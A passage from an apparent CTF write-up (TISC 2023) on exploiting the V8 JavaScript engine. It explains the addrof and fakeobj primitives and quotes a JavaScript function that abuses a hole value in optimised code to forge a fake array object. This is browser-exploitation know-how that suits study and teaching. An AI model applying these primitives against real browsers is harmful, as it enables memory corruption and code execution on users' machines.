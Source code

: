 The `addrof` primitive is pretty self-explanatory. Whatever object it's given, it returns the compressed pointer corresponding to that object's location in memory. We'll get back to this one later.

The `fakeobj` primitive is a bit more interesting. Suppose we write the following values into a double array:

```
DOUBLE ARRAY
the float represented by (pointer_to_map | (pointer_to_properties << 32))
the float represented by (pointer_to_elements | (len << 33))

[Remark: len is specified as an Smi, which are stored in the high 31 bits with LSB set to 0. So an additional 1-bit shift is necessary.]
```

Effectively, we have just forged something that looks like the metadata structure of an array. But this isn't C, so we can't just do `let fake_arr = *(object *)pointer_to_array` or somesuch. The goal of a `fakeobj` primitive is precisely to do this for us.

Let's take a look at how the writeup does this:

```javascript
function weak_fake_obj(b, addr = 1.1) { // Assume function has been optimised
	if (b) {
		let index = Number(b ? the.hole : -1);
		index |= 0;
		index += 1;

		let arr1 = [0x1337, {}]
		let arr2 = [addr, 2.2, 3.3, 4.4];

		let fake_obj = arr1.at(index * 8);

		return [
			fake_obj,
			arr1, arr2
		];
	}
	return 0;
}
```

Here, `arr1` holds `PACKED_ELEMENTS`, while `arr2` holds `PACKED_DOUBLE_ELEMENTS`. More specifically, the memory layout of these objects looks something like this:

![9_1](/assets/tisc-2023/9_1.png)

